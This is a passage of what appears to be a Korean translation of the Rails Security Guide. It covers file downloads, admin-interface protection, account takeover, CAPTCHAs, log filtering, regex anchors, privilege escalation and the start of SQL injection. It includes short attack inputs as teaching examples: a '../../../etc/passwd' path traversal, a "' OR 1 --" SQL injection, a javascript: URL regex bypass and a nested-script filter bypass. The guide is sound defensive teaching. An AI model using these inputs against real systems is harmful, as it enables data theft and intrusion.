(attachment_fu 플러그인이 이미지를 처리하듯), 파일 업로드를 동기적으로 처리하면 보안상으로 불리해집니다. 서비스 거부(DoS) 공격 취약점이 생기기 때문입니다. 공격자는 동기적으로 이루어지는 파일 업로드를 여러 컴퓨터에서 동시에 실행하는 것으로 서버에 과부하를 걸어 최종적으로 서버를 크래시 또는 동작 중지 상태에 빠뜨릴 수 있습니다.
여기에 대한 대책은 미디어 파일 업로드는 비동기적으로 처리하는 것입니다. 미디어 파일을 저장하고, 그 후에 데이터베이스에 대한 처리를 스케쥴링합니다. 그러면 두번째 처리는 백그라운드에서 동작하게 됩니다.
4.3 파일 업로드에서 실행 가능한 코드를 전송하기
업로드된 파일이 포함하고 있는 소스 코드가 특정 폴더에 위치하고 있으면 소스코드가 실행 가능해질 가능성이 있습니다. Rails의 /public 폴더가 Apache의 홈 폴더에 있는 경우에는 여기에 업로드 파일을 저장해서는 안됩니다.
많이 사용되고 있는 Apache 웹서버에는 DocumentRoot라는 옵션이 존재합니다. 이것은 웹 사이트의 홈 폴더이며, 그 폴더에 들어있는 모든 파일은 웹 서버에 의해서 처리됩니다. 거기에 보관되어 있는 파일의 이름에 특정 확장자를 부여하게 되면, 거기에 대해서 요청이 전송되었을때 실행되는 경우가 존재합니다(몇몇 옵션이 활성화되어야 할 수도 있습니다). 실행될 가능성이 있는 확장자는 PHP나 CGI 등이 이씃ㅂ니다. 공격자가 "file.cgi"라는 파일을 업로드하고, 그 중에 위험한 코드가 포함되어 있다고 가정합시다. 이 파일을 누군가가 다운로드하게 되면 그 코드가 실행됩니다.
Apache의 DocumentRoot가 Rails의 /public 폴더를 가리키고 있는 경우, 업로드 파일을 그곳에 저장하지 마세요. 적어도 한단계 아래에 위치시킬 필요가 있습니다.
4.4 파일 다운로드
사용자가 어떤 파일이든 다운로드 할 수 있도록 두지 마세요.
파일 업로드 시에 파일명의 필터링이 필요했던 것처럼, 파일 다운로드 시에도 파일명을 필터링할 필요가 있습니다. send_file() 메소드는 서버로부터 클라이언트로 파일을 전송합니다. 필터링이 되지 않은 파일명을 사용하면 사용자가 임의의 파일을 다운로드 할 수 있게 됩니다.
send_file('/var/www/uploads/' + params[:filename])
"../../../etc/passwd" 와 같은 파일명을 넘겨주면 서버의 로그인 정보를 다운로드 할 수 있게 됩니다. 이에 대한 간단한 대책으로는 요청된 파일명이 기대되는 폴더에 존재하는지를 확인하는 것입니다.
basename = File.expand_path(File.join(File.dirname(__FILE__), '../../files'))
filename = File.expand_path(File.join(basename, @file.public_filename))
raise if basename !=
File.expand_path(File.join(File.dirname(filename), '../../../'))
send_file filename, disposition: 'inline'
이 때에 파일명을 데이터베이스에 저장해두고, 서버 상에 존재하는 실제 파일명에는 대신 데이터베이스의 id를 넣어두는 방법도 함께 사용할 수 있습니다. 이 방법도 업로드된 파일이 실행될 가능성을 회피하기 위한 방법으로 좋습니다. attachment_fu 플러그인에서도 같은 방법을 사용하고 있습니다.
5 인트라넷과 Admin 보안
인트라넷 그리고 관리 화면 인터페이스는 강한 권한을 가지고 있기 때문에 빈번한 공격 대상이 됩니다. 인트라넷 또는 관리화면에는 다른 무엇보다 강한 보안 대첵이 요구됩니다만, 실제로는 오히려 이러한 쪽이 보안 대책이 잘 되어 있지 않은 경우가 가끔 있습니다.
2007년 Monster.com이라는 온라인 채용 웹 애플리케이션에서 특별히 만들어진 트로이 목마 프로그램에 의해서 인트라넷의 정보가 유출되어, 말 그대로 경영자에게 있어서 괴물이 되어버린 사건이 있었습니다. 특정 사이트를 대상으로 하는 트로이 목마를 드문 편이기에 위험도도 낮은 편입니다만, 그렇다고해서 가능성이 전혀 없는 것은 아니며, 클라이언트 쪽의 보안도 중요하다는 좋은 예시이기도 합니다. 단, 인트라넷이나 관리 애플리케이션에 있어서 가장 위협적인 것은 XSS와 CSRF입니다.
XSS: 악의 있는 사용자가 인트라넷의 외부에서 입력한 데이터를 다시 표시하게 되면 웹 애플리케이션이 XSS 공격에 대해서 취약해지게 됩니다. 사용자의 이름, 덧글, 스팸 레포트, 주문 양식의 주소와 같은 정보같은 것들 조차 XSS 공격에 사용될 수 있습니다.
관리화면이나 인트라넷에서 한 곳이라도 필터링을 하지 않는 곳이 있다면, 애플리케이션 전체가 취약점을 노출하게 됩니다. 예상되는 공격으로는 관리자의 cookie를 훔치거나, 관리자 패스워드를 훔치기 위한 iframe을 주입, 또는 관리자 권한 탈취를 위해 브라우저의 보안 취약점을 경유하여 악의적인 소프트웨어를 설치하는 등이 있습니다.
XSS 대책을 참조해주세요. SafeErb 플러그인을 인트라넷이나 관리 화면에서도 사용하기를 권장합니다.
CSRF: Cross-Site Request Forgery(CSRF)는 Cross-Site Reference Forgery(XSRF)라고도 불리며, 무척 강력한 공격방법입니다. 이 공격을 받으면, 관리자나 인트라넷의 사용자가 할 수 있는 모든 것을 할 수 있게 됩니다. CSRF에 대해서는 이미 설명하였으므로, 여기에서는 공격자가 인트라넷이나 관리화면에 대해서 어떤 식으로 공격을 하는지 몇가지 사례를 들어 설명합니다.
실제로 일어난 사건으로 CSRF에 의한 라우터 재구성에 대해 이야기해봅시다. 이 공격자는 CSRF를 포함한 위험한 메일을 멕시코에 있는 다수의 사용자에게 전송했습니다. 그리고 그 태그에는 사용자의 라우터를 재구성하는 HTTP GET 요청이 포함되어 있었습니다. 이 라우터는 멕시코 전역에 폭넓게 보급되어 있는 모델입니다. 이 요청에 의해서 DNS 설정이 변경되어 멕시고에서 사업을 하고 있는 인터넷 뱅킹 웹사이트가 공격자의 웹사이트로 맵핑되어 버렸습니다. 이 라우터를 경유하여 인터넷 뱅킹 사이트에 접속하게 되면 공격자가 준비해둔 가짜 사이트가 열리게 되며, 이를 통해 신용 정보가 유출됩니다.
Google Adsense의 이메일 주소와 비밀번호가 변경된 사례도 있습니다. 표적이 된 사용자가 Google Adsense에 로그인하고 Google 광고 캠페인용 화면을 열자, 거기에서 공격자는 그들의 로그인 정보를 변경할 수 있었습니다.
다른 유명한 사례로는 위험한 XSS를 확산시키기 위해서 일반 웹 애플리케이션이나 블로그, 게시판이 이용된 것도 있습니다. 말할 필요도 없이 이 공격을 성공시키기 위해서는 공격자가 URL 구조를 알고 있어야 합니다만, Rails의 URL은 무척 구조가 알기 쉽기 때문에 오픈소스의 관리 화면을 사용하게 되면 구조를 손쉽게 추측할 수 있습니다. 공격자는 있을법한 ID와 비밀번호를 조합하여 무차별 공격을 시도하는 Image 태그를 사용하는 것으로 운좋게 침입할 수도 있습니다.
관리화면이나 인트라넷에서의 CSRF 대책에 대해서는 CSRF 대책을 참고해주세요.
5.1 그 이외의 예방책
관리화면은 많은 경우에 다음과 같은 구조로 되어 있습니다. www.example.com/admin 과 같은 URL을 사용하고, User 모델의 admin 플래그가 있을 경우에만 접속 가능하며, 관리자 권한으로 사용자들이 입력한 값을 확인하고, 삭제/추가/편집등을 할 수 있습니다. 여기에서는 이에 대해서 이야기를 해봅시다.
항상 최악의 상황을 상정하세요. '누군가가 자신의 cookie나 사용자 정보를 훔칠 수 있다면 어떻게 될 것인가'. 관리화면에서 권한(role)을 도입하는 것으로 공격자가 사용할 수 있는 조작의 가짓수를 줄일 수 있습니다. 1명의 관리자가 전권을 가지는 것이 아닌, 권한을 여러명의 관리자에게 분산시키는 것입니다. 또는 관리화면을 위해서 특별한 로그인 정보를 별도로 준비하는 방법도 있습니다. 일반 사용자가 등록되어있는 User 모델에 관리자도 등록하고, 관리자 플래그를 통해서 구별하는 것은 공격당하기 쉬우므로 이를 피할 수 있습니다. 정말 중요한 조작을 할 경우에는 비밀번호를 요구한다라는 방법도 있습니다.
관리자는 반드시 전세계에서 관리화면에 접근할 수 있어야 할 필요는 없습니다. 송신측의 IP 주소를 일정 범위로 제한한다는 방법도 생각해볼 수 있을 겁니다. request.remote_ip 메소드를 사용하여 사용자의 IP 주소를 체크할 수 있습니다. 이 방법은 공격에 대한 직접적인 방어가 되지는 않습니다만, 중간 단계로서는 무척 유용합니다. 다만, 프록시를 통해서 송신측 IP 주소를 속일 수도 있다는 점을 기억하세요.
관리화면을 특별한 서브도메인에 별도로 준비하고 (admin.application.com 등) 나아가 독립된 관리 애플리케이션으로 사용자 관리를 독자적으로 처리할 수도 있습니다. 이러한 구조를 만드는 것으로 www.application.com 도메인으로부터 관리자 쿠키를 훔쳐낼 수 없게 됩니다. 브라우저에는 Same Origin Policy가 있으므로, www.application.com 에 주입된 XSS 스크립트로부터는 admin.application.com 의 cookie를 읽어올 수 없으며, 반대의 상황에서도 똑같이 읽어올 수 없게 됩니다.
6 사용자 관리
인증(authentication)과 허가(authorization)는 거의 모든 웹 애플리케이션에서는 필수불가결입니다. 인증 시스템은 직접 작성하는 것보다는 기존의 gem을 사용하는 것을 추천합니다. 단, 항상 최신 버전을 유지해주세요. 이 이외에도 다른 몇가지 주의사항을 지키는 것으로 애플리케이션을 보다 안전하게 만들 수 있습니다.
Rails에서는 여러개의 인증용 플러그인을 사용할 수 있습니다. 인기가 좋은 devise나 authlogic 같은 우수한 플러그인은 비밀번호를 평문이 아닌 항상 암호화된 상태로 저장합니다. Rails 3.1에서는 같은 기능을 가지는 내장 has_secure_password 메소드를 사용할 수 있습니다.
신규 사용자는 반드시 메일을 경유하여 활성화 코드를 받고, 메일에 첨부된 링크를 클릭하여 계정을 활성화 했다고 가정합니다. 계정을 활성화하면, 데이터베이스의 활성화 코드의 컬럼이 NULL로 변경됩니다. 아래와 같은 URL을 요청하는 사용자는 데이터베이스에서 발견된 첫번째로 유효한 사용자로 웹 사이트에 로그인해버리는 경우가 있습니다. 그리고 그것이 때때로 관리자일 가능성이 있습니다.
http://localhost:3006/user/activate http://localhost:3006/user/activate?id=
일부 서버에서는 params[:id]로 참조되는 파라미터 id가 nil이 되어버릴 수 있으므로, 위의 URL이 사용가능할 수도 있습니다. 다음을 보세요.
User.find_by_activation_code(params[:id])
파라미터가 nil인 경우, 다음 SQL이 생성됩니다.
SELECT * FROM users WHERE (users.activation_code IS NULL) LIMIT 1
결과 최초의 사용자가 데이터베이스에 있는 것이 확인되어, 결과를 돌려받아 로그인을 합니다. 더 자세한 설명은 필자의 포스팅을 참조해주세요. 플러그인은 기회가 있을 때마다 업데이트 하기를 추천합니다. 나아가 웹 애플리케이션에 이러한 결함이 있는것은 아닌지 항상 신경써서 확인해주세요.
6.1 계정에 대한 무차별 공격(Brute-force Attack)
계정에 대한 무차별 공격(Brute-force attack)이란 로그인 양식에 대해서 성공할 때까지 몇번이고 반복해서 시도하는 방법입니다. 이를 막기 위해서는 에러 메시지를 보다 일반적인 것을 사용하고, CAPTCHA(상대가 컴퓨터인지 아닌지를 확인하기 위한 테스트)를 사용할 필요가 있습니다.
웹 애플리케이션에서의 사용자 목록(명부)는 비밀번호에 대한 무차별 공격시에 악용될 가능성이 있습니다. 단순하게 사용자 이름과 동일한 비밀번호를 사용하고 있는 사람이 놀랄 정도로 많으므로, 무차별 공격에 사용되기 쉽기 때문입니다. 사전에 존재하는 단어에 숫자 섞는 비밀번호도 많습니다. 따라서 사용자 목록과 사전을 사용하여 무차별 공격을 수행하는 자동화 프로그램이 있다면, 순식간에 비밀번호를 파악당하게 됩니다.
이러한 무차별 공격으로부터 조금이라도 보호받기 위해서, 많은 웹 애플리케이션에서는 일부러 일반적인 메시지 '사용자 이름 또는 비밀번호가 다릅니다.'라고 표시하고 있습니다. 어느 쪽이 잘못되었는지 알려주지 않는 것으로, 무차별 공격에 의해 돌파당하는 것을 조금이라도 늦출 수 있습니다. '입력된 사용자 이름이 등록되어 있지 않습니다.'같은 메시지를 돌려주게 되면, 공격자는 곧바로 사용자 목록을 긁어 모아서 자동적으로 커다란 명부를 만들어 낼 수 있을겁니다.
하지만 웹 애플리케이션의 디자이너가 소홀히 하기 쉬운 부분은 이른바 '비밀번호를 잊어버렸을 경우'의 페이지입니다. 이러한 페이지는 자주 '입력된 사용자 또는 메일 주소가 등록되어 있지 않습니다'라는 정보를 주게 됩니다. 이러한 정보는 공격자가 계정에 대한 무차별 공격을 실행할 때에 유효한 사용자 명단을 작성하는데 도움을 줍니다.
이를 조금이라도 완화시키기 위해서는 '비밀번호를 잊어버렸을 경우에도 일반적인 에러 메시지를 표시하도록 합시다. 나아가 특정 IP주소로부터 로그인이 일정 횟수 이상 실패한 경우에는 CAPTCHA 입력을 의무화하도록 해주세요. 물론 이 정도로 자동화된 무차별 공격으로부터 완전히 벗어날 수는 없습니다. 이러한 프로그램은 IP 주소를 빈번하게 바꾸어가며 공격을 반복하여 시도하기 때문입니다. 하지만 이 대책이 공격에 대한 방어선이 되어주는 것도 사실입니다.
6.2 계정의 탈취
많은 웹 애플리케이션에서는 사용자 계정을 간단하게 탈취할 수 있습니다. 공격을 곤란하게 만드는 개선이 이루어지지 않는 것은 왜일까요?
6.2.1 비밀번호
공격자가 훔친 사용자의 세션 cookie를 손에 넣고, 이를 이용하여 웹 애플리케이션을 사용할 수 있는 상태가 되었다고 가정해봅시다. 비밀번호가 간단히 변경가능한 화면 설계(현재 비밀번호를 요구하지 않음)라면 공격자가 몇번의 클릭만으로 계정을 탈취할 수 있습니다. 또는 비밀번호 변경화면에서 CSRF 공격에 대한 취약점을 가지고 있을 경우, 공격자는 사용자를 다른 페이지로 유도해 CSRF를 실행하는 img 태그를 불러오도록 만들어 사용자의 비밀번호를 변경할 것입니다. 대응책으로는 비밀번호 변경 양식에 CSRF 공격에 대한 취약점을 만들지 않는 것입니다. 동시에 사용자가 비밀번호를 변경할 때에는 현재 비밀번호를 반드시 입력하도록 해주세요.
6.2.2 메일
하지만 공격자는 등록되어 있는 메일 주소를 변경하는 것으로 계쩡을 탈취할 가능성도 있으니 주의해야할 필요가 있습니다. 공격자는 메일 주소를 변경하는데 성공할 경우, '비밀번호를 잊어버렸을 경우'페이지를 통해서 공격자의 새로운 이메일 주소로 변경 확인 메일을 전송합니다. 시스템에 의해서 이 메일이 새로운 비밀번호를 포함하고 있는 경우도 있습니다. 대책으로서는, 메일 주소를 변경할 때에도 비밀번호를 요구하는 것입니다.
6.2.3 그 이외에도
웹 애플리케이션의 구성에 따라서는 사용자의 계정을 탈취하는 다른 방법이 숨어있을 가능성도 있습니다. 많은 경우에 CSRF와 XSS가 원인이 됩니다. 여기에서는 Gmail의 CSRF 취약성에서 소개되어 있는 예를 듭니다. 만약 이 공격을 받았을 경우, 사용자는 공격자가 관리하고 있는 웹 사이트로 유도됩니다. 그 사이트의 img 태그에는 함정이 있으며, Gmail의 필터 설정을 바꾸는 HTTP GET 요청을 전송됩니다. 이 사용자가 Gmail에 로그인하고 있는 경우, 필터 설정이 공격자에 의해서 변경되며, 이 경우에는 모든 메일이 공격자에게 전송됩니다. 대응책으로는 애플리케이션의 구조를 체크하고, XSS나 CSRF 취약성이 존재하지 않도록 할 수 밖에는 없습니다.
6.3 CAPTCHA
CAPTCHA란 컴퓨터에 의한 자동응답이 아닌 것을 확인하기 위한 질문/응답 테스트입니다. 덧글 입력같은 경우에 일그러진 이미지에 표시되어 있는 문자를 입력하는 것으로 작성자가 자동 스팸 봇이 아닌지를 확인할 경우에 자주 사용됩니다. 네거티브 CAPTCHA를 사용하면, 작성자가 인간임을 증명하는 대신에, 봇을 함정에 빠뜨려서 봇임을 증명하게 됩니다.
이른바 스팸봇 이외에도, 자동 로그인 봇도 문제가 됩니다. CAPTCHA의 API로는 reCAPTCHA가 유명합니다. 이것은 오래된 책으로부터 인용한 단어를 일그러진 이미즈로 사용합니다. 초기의 CAPTCHAR에서는 배경을 일그러뜨려서 읽기 어렵게 만들었습니다만, 이것은 이미 돌파되었으므로, 현재에는 문자위에 곡선을 그리는 것으로 강화하고 있습니다. 또한 reCAPTCHA는 오래된 책의 디지털화에도 쓰이고 있습니다. ReCAPTCHA는 레일즈의 플러그인으로도 만들어져 있으며, API로 같은 이름을 사용하고 있습니다.
이 API로부터는 공개키와 비밀키를 받습니다. 이것들을 Rails의 환경에 보관할 필요가 있습니다. 이를 통해서 뷰에서 recaptcha_tags 메소드를, 컨트롤러에서는 verify_recaptcha 메소드를 사용할 수 있습니다. 검증에 실패한 verify_recaptcha는 false를 반환합니다. CAPTCHAR의 문제는 사용자에 의한 입력이 귀찮다는 점입니다. 나아가 약시 등의 시력에 문제가 있는 사용자에게는 CAPTCHA의 일그러진 이미지가 읽기 힘들 수 있습니다. 그래서 네거티브 CAPTCHA라는 또 다른 방법이 있습니다. 이 방법의 아이디어는, 입력자를 귀찮게 하며 인간임을 증명하게 만드는 것이 아니라, 봇을 함정에 빠뜨려서 입력자가 봇임을 확인하자는 방식입니다.
대부분의 봇은 단순히 웹 페이지를 크롤링하여 폼을 발견할 때마다 스팸 문장을 입력하는 단순한 것입니다. 네거티브 CAPTCHA에서는 봇을 위한 함정으로 '꿀단지(honeypot)' 필드를 준비합니다. 이는 CSS나 JavaScript를 사용해서 인간에게는 보이지 않도록 만들어둔 가짜 필드입니다.
네거티브 CAPTCHA는 단순한 봇들에게만 효과적이며 애플리케이션을 노리는 봇들에 대해서 효과적인 대책이 되지 못한다는 사실을 기억하세요. 그렇지만 성능을 향상시키기 위해 네거티브 방식과 일반 방식을 혼용할 수는 있습니다. e.g., 만약 가짜 필드가 비어있지 않다면(봇이라고 판단) 아마 Google ReCaptcha로 HTTPS 요청을 생성할 일반 CAPTCHA를 확인할 필요는 없습니다.
여기에서는 JavaScript나 CSS를 사용해서 가짜 필드를 사람으로부터 감추는 방법을 몇가지 소개합니다.
- 가짜 필드를 화면의 바깥에 위치시켜서 보이지 않게 만들기
- 필드를 보이지 않을 정도로 작게 만들거나, 배경과 같은 색으로 설정하기
- 필드를 숨기지 않고 그 대신 '이 필드에는 아무것도 입력하지 말아주세요'라고 설명을 추가하기
가장 간단한 네거티브 CAPTCHA는 가짜 필드를 하나만 사용하는 것입니다. 이 필드를 서버쪽에서 확인합니다. 필드에 어떤 값이 포함되어 전송되어 온다면, 입력자가 봇이라고 판단할 수 있습니다. 그 이후에는 폼의 내용을 무시하고 평소대로 메시지를 출력하면 됩니다. 평소대로 메시지를 출력하면, 봇은 작성에 실패했다는 것을 눈치채지 못하고 그대로 지나갈 겁니다. 이 방법은 민폐를 끼치는 사용자에게도 유효한 방법입니다.
Ned Batchelder의 글에는 나아가 세련된 네거티브 CAPTCHA 방법이 몇가지 소개되고 있습니다.
- 현재의 UTC 타임스탬프를 포함한 필드를 폼에 포함해두고, 서버 쪽에서 그 필드를 체크합니다. 필드의 시간 값이 먼 과거이거나, 미래일 경우에 그 폼을 무효로 처리합니다.
- 필드의 이름을 랜덤으로 변경합니다.
- 가짜 필드를 여러개 준비하고 전송 버튼을 포함한 다양한 타입을 사용합니다.
네거티브 CAPTCHA는 웹을 배회하는 봇으로부터만 보호할 수 있습니다. 특정 사이트를 노리도록 만들어진 봇을 속일 수는 없습니다. 따라서, 네거티브 CAPTCHA는 로그인 폼의 보호에는 유용하지 않을 수도 있습니다.
6.4 로그 출력
Rails의 로그 출력에 비밀번호가 포함되지 않도록 해주세요.
기본으로 Rails의 로그에는 웹 애플리케이션에 넘어온 요청의 모든 것을 출력합니다. 하지만 로그 파일에는 로그인 정보, 신용카드번호 등의 정보가 포함되어 있는 경우가 있기 때문에 커다란 보안 문제의 원인이 될 수 있습니다. 웹 애플리케이션의 보안 문제를 다룰 때에, 공격자가 웹 서버에 접속 성공했을 때의 경우도 반드시 고려해둘 필요가 있습니다. 비밀번호나 비밀정보가 로그 파일에 평문으로 출력되어 있어서는 데이터베이스 상에 이러한 정보가 암호화 되어 있더라도 의미가 없어지기 때문입니다. Rails 애플리케이션의 설정 파일의 config.filter_parameters에 특정 요청 파라미터의 로그 출력을 필터링하는 설정을 추가할 수 있습니다. 필터링된 파라미터는 로그에서 [FILTERED]라는 문자열로 치환됩니다.
config.filter_parameters << :password
제공된 파라미터들은 부분 정규표현식 매칭을 통해서 필터링됩니다. Rails는 기본으로 :password를 적절한 initializer(initializers/filter_parameter_logging.rb)에 추가하며, 전형적인 password와 password_confirmation에 대해서 고려해줍니다.
6.5 좋은 비밀번호
기억나지 않는 비밀번호가 있나요? 비밀번호를 어딘가에 적어두지 마세요. 기억할 수 있는 문장을 하나 고르고, 단어의 앞머리만 따는 등을 방법으로 비밀번호를 만들어 주세요.
보안 전문가인 Bruce Schneier는 뒤에서 설명한 방법에서 MySpace 상에 존재하는 34,000명의 사용자의 사용자 비밀번호에 대한 피싱 공격이 얼마나 유효한지를 분석했습니다. 그 결과, 많은 비밀번호가 무척 간단하게 뚫린다는 것이 판명되었습니다. 자주 쓰이는 20개의 비밀번호는 아래와 같습니다.
password1、abc123、myspace1、password、blink182、qwerty1、****you、123abc、baseball1、football1、123456、soccer、monkey1、liverpool1、princess1、jordan23、slipknot1、superman1、iloveyou1、monkey
또한 사전에 존재하는 단어를 그대로 사용하고 있는 경우는 4%에 불과하며, 대부분의 경우 영어와 숫자를 섞어 쓰고 있다는 점은 꽤나 흥미 깊은 부분입니다. 하지만 비밀번호 돌파용 사전에는 이러한 방대한 비밀번호가 수집되어 있으며, 공격자는 영어와 숫자를 다양한 방법으로 조합해서 시도합니다. 공격자가 타겟 사용자의 이름을 알고, 그 사용자가 약한 비밀번호를 사용하고 있다면 그 계정은 손쉽게 뚫릴 겁니다.
좋은 비밀번호의 조건은 '충분히 길고' '영어와 숫자를 섞어서 사용하며' '대문자와 소문자를 모두 사용'할 것입니다. 하지만 이런 비밀번호는 외우기 어려우므로, 우선은 암기할 수 있는 문장을 고르고, 그 문장에서 사용되고 있는 단어들의 머릿글자들을 모아서 비밀번호로 사용하는 것을 추천합니다. 「The quick brown fox jumps over the lazy dog」라는 문장이라면 「Tqbfjotld」라는 비밀번호를 만들 수 있습니다. 물론 이 문장은 어디까지나 예제에 불과합니다. 실제로 사용할 때에는 이러한 흔한 문장을 고르지 말아주세요. 이정도의 비밀번호는 크래킹용 사전에 이미 수집되어 있을 가능성이 있습니다.
6.6 정규표현
Ruby의 정규표현식에서 하기 쉬운 실수는 좀 더 안전한 '\A' 나 '\z'가 존재하는 것을 모르고 위험한 '^'나 '$'를 사용하는 것입니다.
Ruby의 정규표현식에서는 문자열의 처음이나 마지막을 매칭하기 위한 방법이 다른 언어와는 조금 다릅니다. 많은 Ruby 책이나 Rails 책에서도 이 부분을 잘못 설명하고 있습니다. 이것이 어떤 문제를 야기할 수 있는 것일까요? 예를 들자면 URL 형식인지 아닌지를 확인하기 위해서 아래와 같은 단순한 정규표현을 사용했다고 가정해봅시다.
/^https?:\/\/[^\n]+$/i
이는 일부 언어에서 정상적으로 동작합니다. 하지만 Ruby에서는 '^'와 '$'는 입력 전체가 아니라 행의 처음과 마지막에 매칭됩니다. 따라서, 이 경우에는 아래와 같은 악의있는 URL을 받았을때 검증에 성공하게 됩니다.
javascript:exploit_code();/* http://hi.com */
이 URL이 필터에 걸리지 않는 이유는 입력이 2번째 줄에 매칭되기 때문입니다. 따라서 첫번째 줄과 세번째 줄에 어떤 문자열이 오더라도 검증에 성공하게 됩니다. 검증을 돌파한 URL이 이번에는 뷰의 아래와 같은 방식으로 표시될 수 있다고 해봅시다.
link_to "Homepage", @user.homepage
표시되는 링크는 얼핏 보기에는 무해해보입니다만, 클릭하면 공격자가 삽입한 악의있는 JavsScript 함수를 시작으로 JavaScript 코드가 실행되고 맙니다.
그러므로 여기에서 정규표현을 위험한 '^'나 '$'를 안전한 '\A'나 '\z'로 바꿀 필요가 있습니다.
/\Ahttps?:\/\/[^\n]+\z/i
'^'나 '$'를 사용하는 실수는 자주 있으므로, 정규표현이 '^'로 시작하거나 '$'로 끝나게 되면 형식 검증자(validates_format_of)에서 예외를 발생시키게 되었습니다. 거의 없을것이라고 생각합니다만 만약 '\A'나 '\z' 대신에 '^'나 '$'를 사용하고 싶은 경우에는 :multiline 옵션을 true로 설정해주세요.
# 이 문자열이 어디에 있더라도 "Meanwhile"이라는 문자가 포함되어 있을 필요가 있습니다.
validates :content, format: { with: /^Meanwhile$/, multiline: true }
이 방법은 형식 검증자를 사용할 경우에 발생하기 쉬운 실수로부터 보호하기 위한 것입니다. '^'와 '$'는 Ruby에서는 1개의 행에 대해서만 매칭하며, 문자열 전체에서 매칭되지 않는다는 점을 이해해야합니다.
6.7 권한 상승
단 1개의 파라미터가 변경되었다 하더라도 사용자가 부정 권한으로 접근할 수 있을 수도 있습니다. 파라미터는 난독화하고, 숨기더라도 변경될 가능성이 있다는 점을 잊지 말아 주세요.
변경될 가능성이 높은 파라미터라고 한다면 역시 id일 것입니다. http://www.domain.com/project/1의 1이 id입니다. 이 id는 컨트롤러의 params를 경유하여 얻을 수 있습니다. 컨트롤러에서는 다음과 같은 코드를 많이 사용합니다.
@project = Project.find(params[:id])
웹 애플리케이션에 따라서는 이 코드로도 문제 없습니다만, 그 사용자가 모든 뷰를 참조할 권한이 없는 경우에는 문제가 됩니다. 그 사용자가 URL의 id를 42로 변경하고 본래의 id로는 접근할 수 없는 페이지를 볼 수 있게 됩니다. 이러한 경우가 발생하지 않도록 사용자의 접근 권한도 쿼리에 포함해 주세요.
@project = @current_user.projects.find(params[:id])
웹 애플리케이션에 따라서는 사용자가 다른 변경 가능한 파라미터가 포함되어 있을 가능성도 있습니다. 경험적으로도 안전이 확인되지 않은 사용자의 입력이 항상 안전한 경우는 거의 없으며, 사용자로부터 전송되는 어떤 파라미터도 무언가 악의 있는 것들이 포함될 가능성은 항상 존재합니다.
난독화와 JavaScript에 의한 검증 기능만으로 보안을 유지할 수 있을거라고 생각해서는 안됩니다. 개발자 도구를 사용하면 폼의 숨겨진 필드를 찾아서 변경할 수도 있습니다. JavaScript를 사용해서 사용자의 입력 데이터를 검증할 수는 있습니다만, 공격자가 상정되지 않은 값을 포함한 악의있는 요청을 보내는 것을 저지할 수는 없습니다. Mozilla Firefox 용의 Firebug 플러그인을 사용하면 모든 요청을 로그에 기록하여 그를 반복해서 전송하거나, 변경하거나 할 수 있습니다. 나아가 JavaScript에 의한 검증은 JavaScript를 비활성화하면 쉽게 우회할 수 있습니다. 클라이언트 쪽에, 클라이언트로부터의 요청이나 인터넷으로부터의 응답을 훔쳐보는 프록시가 존재할 가능성이 있다는 것도 잊지 말아야 합니다.
7 Injection
_인젝션(주입)이란 안전한 레벨의 권한을 이용하여 웹 애플리케이션에 악의 있는 코드나 파라미터를 사용하는 것입니다. XSS(크로스 사이트 스크립팅)이나 SQL 인젝션은 모두 인젝션의 예시입니다.
인젝션이란 어떤 코드나 파라미터가 특정 상황에서만 유해하고 그 이외의 상황에서는 완전히 무해하다는 점이 무척 교활하다고 할 수 있습니다. 여기서 말하는 상황이란, 스크립팅, 쿼리, 프로그래밍 언어, 쉘, Ruby나 Rails의 메소드 등이 있습니다. 아래에서는 인젝션 공격을 발생시킬 수 있는 중요한 상황에 대해서 설명합니다. 우선, 인젝션에 대한 아키텍쳐상의 선택에 대해서 설명합니다.
7.1 화이트리스트와 블랙리스트
필터링, 보호하기, 검증하기에서는 일반적으로 화이트리스트가 블랙리스트보다 자주 사용됩니다.
블랙리스트는 스팸으로 확인된 이메일 주소, 비공개 메소드 이름, 또는 악의가 있는 HTML 태그등을 체크하는 경우에 많이 사용합니다. 화이트리스트는 이와 정 반대의 방식을 사용하여, 악의적으로 쓰이지 않을거라고 확신하는 이메일 주소, 공개된 액션, 또는 문제가 없는 HTML 태그인지를 확인합니다. 스팸 필터등 대상에 따라서는 화이트리스트를 작성할 방법이 없는 경우도 존재합니만, 기본적으로는 화이트리스트가 선호됩니다.
- before_action에서는 except: [...]가 아닌 only: [...]를 사용해주세요. 그 쪽이 장기적으로 컨트롤러에 액션이 추가되었을 경우에 그 액션에서 필터를 무효화하는 작업을 하지 않고 넘길 수 있습니다.
- 크로스 사이트 스크립팅(XSS) 대책으로 <script>를 제거하지 말고, <strong>로 허락해주세요. 자세한 설명은 아래를 참조해주세요.
- 블랙리스트에 걸린 사용자의 입력 데이터를 코드로 수정하여 사용하지 말아주세요.
- 그런 식의 방법은 "<sc<script>ript>".gsub("<script>", "")같은 공격을 성립시킬 수 있습니다.
- 하지만 유해한 입력 요청은 거부해주세요.
특정 항목만을 허락하는 화이트리스트의 접근 방식은 특정 항목만을 금지하는 블랙리스트 접근 방법에 비해서 블랙리스트에 금지사항을 추가하는 것을 잊을 경우가 구조적으로 발생할 수 없으므로 바람직하다고 볼 수 있을 것입니다.
7.2 SQL 인젝션
메소드의 개선이 반복된 덕분에 SQL 인젝션이 Rails 애플리케이션에서 문자가 되는 경우는 거의 없어졌습니다. 하지만 SQL 인젝션은 한번 발생하기만 하면 중대한 타격을 입힐수 있으며, 웹 애플리케이션에 대한 일반적인 공격방법이기도 하므로, 이 문제를 충분히 이해하는 것이 중요합니다.
7.2.1 들어가면서
SQL 인젝션은 웹 애플리케이션의 파라미터를 조작하여 데이터베이스 쿼리에 영향을 주는 것을 목적으로 하는 공격방법입니다. SQL 인잭션은 인증을 우회하기 위한 목적으로 자주 사용됩니다. 이외에도 데이터를 조작하거나 임의의 데이터를 읽어오거나 하는 목적으로도 사용됩니다. 쿼리의 입력 데이터를 사용하지 않는 방법을 아래에서 설명합니다.
Project.where("name = '#{params[:name]}'")
이 코드는 검색용 액션등에서 자주 사용되며, 사용자가 검색하고 싶은 프로젝트 이름을 입력합니다. 이를 통해서 악의있는 사용자가 "' OR 1 --'"라는 문자열을 입력하게 되면, 아래의 SQL 쿼리가 생성됩니다.
SELECT * FROM projects WHERE name = '' OR 1 --'
